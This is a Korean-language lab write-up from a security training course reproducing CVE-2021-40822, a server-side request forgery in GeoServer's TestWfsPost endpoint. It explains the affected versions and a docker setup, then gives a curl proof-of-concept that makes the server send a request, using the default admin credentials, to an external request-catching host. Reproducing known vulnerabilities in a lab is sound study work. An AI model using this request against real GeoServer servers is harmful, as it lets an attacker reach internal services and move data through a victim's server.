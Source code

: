 # CVE-2021-40822 (GeoServer SSRF)

> 화이트햇 스쿨 3기 - [이진석]

<br/>

### 요약

- GeoServer는 지리공간 데이터를 보고, 편집하고, 공유할 수 있는 기능을 제공하는 Java로 작성된 오픈 소스 소프트웨어 서버이다.
- GeoServer 2.19.3, 2.18.5, 2.17.6 이전 버전에는 WMS GetMap 요청에 서버 측 요청 위조(SSRF) 취약점이 존재하여 공격자는 GeoServer 서버를 통해 내부 또는 외부 서비스에 요청을 보낼 수 있다.

### 환경구성
- `docker compose up -d` 커맨드를 입력해 GeoServer 2.19.1 서버를 시작한다.
서버가 시작된 후 GeoServer의 기본 페이지를 찾아볼 수 있다. `http://your-ip:8080/geoserver`
<img width="500" alt="서버기본이미지" src="0.png"/>

- https://requestcatcher.com/ 또는 https://webhook.site/ 에서 공격을 받을 외부 사이트를 준비한다.
  
### exploit
- 취약점은 TestWfsPost엔드포인트에 존재하여 공격자는 이 url매개변수를 사용하여 서버가 임의의 URL로 요청을 보내도록 할 수 있다.
- 엔드포인트는 다음과 같은 여러 매개변수를 허용한다.
url: GeoServer가 요청을 보낼 대상 URL
body: 전송할 요청 본문으로 이 매개변수가 비어 있으면 GeoServer는 GET 요청을 전송하고, 값이 포함되어 있으면 GeoServer는 POST 요청을 전송한다.
username: 기본 인증을 위한 사용자 이름(선택 사항)
password: 기본 인증을 위한 비밀번호 (선택 사항)

<pre><code>curl -X POST http://127.0.0.1:8080/geoserver/TestWfsPost
  -H "Content-Type: application/x-www-form-urlencoded"        
  -H "Host: (your-name).requestcatcher.com"       
  -d "url=http://(your-name).requestcatcher.com/geoserver/../&body=test&username=admin&password=geoserver"</code></pre> 
  
`참고: 매개변수의 호스트는 요청의 헤더 url와 일치해야 합니다 . 그렇지 않으면 GeoServer에서 오류가 반환됩니다.`
<img width="993" alt="결과이미지" src="1.png" />

<br/>

### 결과
GeoServer를 향한 요청에 대한 응답으로 외부사이트에 로그가 남아 GeoServer에서 온 test라는 텍스트가 반환되는 것을 볼 수 있습니다.
<br/>
